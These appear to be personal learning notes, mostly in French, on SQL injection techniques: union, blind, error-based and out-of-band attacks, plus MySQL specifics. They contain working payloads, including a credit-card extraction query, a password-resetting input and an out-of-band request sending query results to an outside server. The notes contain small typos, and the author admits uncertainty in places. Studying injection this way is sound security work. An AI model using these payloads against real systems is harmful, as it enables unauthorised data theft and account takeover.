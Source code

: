 # SQL Injection

## Standard Exploitation

Ecrire `‘or ‘1’ = ‘1`

```sql
# Transform this request : 
SELECT * FROM Users WHERE Username=’$username’ AND Password=’$password’

# In that : 
SELECT * FROM Users WHERE Username=’...’ OR ‘1’ = ‘1’ AND Password=’1’ OR ‘1’ = ‘1’
```

* Penser à utiliser `LIMIT` si besoin
* On peut aussi utiliser des commentaires au lieu de reformer la string `or 1=1 --`  \(be mindful of the last space\) ou `or 1=1#`
* Stacker des requêtes en terminant la 1ère avec un `;` \(impossible si la requête est dans une fonction la préparant, et non-géré par certains systèmes de db\) : `http://www.example.com/product.php?id=10; INSERT INTO users (…)` 

## Union Exploitation

Étendre une requête SELECT avec un `UNION`

```sql
# Tansform this request :
SELECT Name, Phone, Address FROM Users WHERE Id=$id

# In that :
SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

* `ALL` est utilisé pour contrecarrer `DISTINCT`
* On rajoute `1, 1` car il faut le même nombre de colonnes que le `SELECT` de base. 
  * Pour déterminer le nombre adéquat, on peut faire un `http://www.example.com/product.php?id=10 ORDER BY 10--` qui retournera soit une erreur, soit quelque chose s’il y a effectivement 10 colonnes.
* En occurrence c’est des int \(donc `1, 1`\), mais il faut que ces colonnes match aussi le types.
  * Pour ça, on peut tester en mettant d’abord null, puis en changeant le genre de données et en vérifiant l’erreur.
* Si seul le premier résultat est montré \(et donc celui de la requête véridique\), on peut fournir un id invalide, comme ça c’est le résultat de notre union qui sera remonté.

## Blind Exploitation \(Oracle\)

* Si le site réagit différemment si une query obtient un résultat ou non, on peut l'utiliser comme Oracle même s'il ne nous donne pas directement le résultat.
* Ca nous permet de deviner caractère par caracètre l'info qu'on recherche
* What to look for :
  * Difference in wording
  * Difference in response status code
  * Time-based difference

## Error Based Exploitation

Forcer des messages d’erreur donnant des informations. Par exemple, pour cette requête :

```sql
SELECT * FROM products WHERE id_product=$id_product
```

On peut lui demander de retourner un hostname en lui fournissant un user database name \(en oracle\) :

`http://www.example.com/product.php?id=10||UTL_INADDR. GET_HOST_NAME( (SELECT user FROM DUAL) )--`

Ce qui nous donnera cette erreur : `ORA-292257: host SCOTT unknown` révélant ainsi le user.

Cette technique diffère évidemment pour chaque database management system.

## Out of band exploitation

Cette technique consiste à utiliser des fonctions du DBMS \(Database management system\) pour envoyer les résultats à un serveur/autre, cela varie évidemment d’un DBMS à l’autre.

En oracle on pourrait par exemple faire ça :

`http://www.example.com/product.php?id=10||UTL_HTTP. request(‘testerserver.com:80’||(SELET user FROM DUAL)--`

Ce qui fera une requête GET vers testserver avec les résultats de la query. \(On peut setup le server avec netcat\).

## Stored Procedure Injection

Apparemment il existe ce genre de syntaxe :

```sql
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ‘ Select ‘ + @ columnamelist + ‘ from ReportTable‘ exec(@sqlstring) Go
```

Que l’on pourrait abuser avec ce genre d’input :`1 from users; update users set password = ‘password’; select *`

Mais je connais pas cette syntaxe donc je comprends pas trop.

## Insider Info

If you have an injection in a place where doing an "or 1=1" isn't useful, you may still be able to use it to show the table name & structure by injecting an sql command.

## MySQL Server Specificity

Disclaimer : y’a la même pour PL/SQL Server, Microsoft SQL Server, PostGre SQL, Miscrosoft Access et NoSQL mais vu que je les connais pas et que ça m’intéresse pas dans l’immédiat, je l’ai pas détaillé.

Fonctionnalités permettant des injections par version \(depuis y’a probablement eu de nouvelles versions\)

* From Version 4.0: UNION 
* From Version 4.1: Subqueries 
* From Version 5.0: Stored procedures, Stored functions and the view named INFORMATION\_SCHEMA 
* From Version 5.0.2: Triggers

### Single Quote Escape

MySQL permet d’escape les ', ce qui peut annuler certaines attaques quand ce n’est pas possible de contourner l’utilisation des '.

Mais dans certains cas on peut le contourner ainsi :

`password LIKE 'A%'` -&gt; `password LIKE 0x4125` -&gt; `password LIKE CHAR(65,37)`

If the db use the GBK charset \(simplified chinese\) and not the application, using `\xBF'` \(URL-encoded as `%bf%27`\) will prevent `addslashes` \(php function\) from correctly escaping the quote. \(Explained [here](http://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string)\)

### Lecture / Ecriture

* On peut écrire dans une fichier avec `into outfile 'path'` \(on ne peut pas contourner les ' ' donc s’ils sont escape, ça ne marche pas\).
* On peut lire avec `load_file(‘name’)`

### Autre

* On ne peut pas accumuler les requêtes \(donc utiliser le `;` pour en commencer une nouvelle\).
* Y’a 2 genres d’utilisateurs `USER()` et `CURRENT_USER()` mais je suis pas sûr des subtilités.
* Comments : `--` \(The space is important\) ou \`\#

### Fonctions utiles

* `LENGTH()`
* `SUBSTRING()`
* `BENCHMARK()`
* `SLEEP()`

